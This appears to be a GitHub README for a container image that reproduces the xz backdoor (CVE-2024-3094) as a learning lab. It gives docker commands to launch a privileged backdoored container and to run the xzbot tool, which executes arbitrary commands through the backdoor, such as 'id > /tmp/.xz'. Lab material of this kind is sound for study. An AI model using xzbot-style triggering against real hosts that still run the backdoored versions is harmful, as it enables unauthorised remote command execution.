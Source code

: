 # xz backdoor container image

The container image of [xz](https://tukaani.org/xz-backdoor/) backdoor ([CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094)) based on an amazing work from [@amlweems](https://github.com/amlweems)'s [xzbot](https://github.com/amlweems/xzbot) project that can be run on both *x86_64* and *Apple Silicon* (via QEMU or rosetta).

> THIS IS FOR LEARNING PURPOSE ONLY!

## Demo
![xz-backdoor demo](.github/demo.gif)

## Overview
The container images are available on both Github ([ghcr.io/rezigned/xz-backdoor](https://github.com/rezigned/xz-backdoor/pkgs/container/xz-backdoor)) and Docker ([rezigned/xz-backdoor](https://hub.docker.com/r/rezigned/xz-backdoor)) registries.

### Versions
Both versions of the xz-backdoor are available as image tags.

* 5.6.0
* 5.6.1 (`latest`)

## Getting started

### Prerequisites

* [docker](https://www.docker.com/) or [podman](https://podman.io/docs/installation).
* Read [xzbot](https://github.com/amlweems/xzbot)'s documentation.

### Usage
**1. Start the container image**

> [!IMPORTANT]
> The `--privileged` option is required in order to start `systemd` as PID 1.

```sh
docker run --rm -it -d \
  --privileged \
  --name xz-backdoor \
  --platform linux/amd64 \
  rezigned/xz-backdoor:latest # or xz-backdoor:5.6.0
```
**2. Run a command via `xzbot`**

> [!NOTE]
> The ourput of the default command (`id`) is redirected to `/tmp/.xz`.
>
> See https://github.com/amlweems/xzbot for more details.

```sh
# default command `id > /tmp/.xz`
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot

# custom command
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot -cmd "uname -a > /tmp/.xz"
```

## Acknowledgements
* https://edofic.com/posts/2021-09-12-podman-m1-amd64/
* https://github.com/amlweems/xzbot
* https://www.openwall.com/lists/oss-security/2024/03/29/4
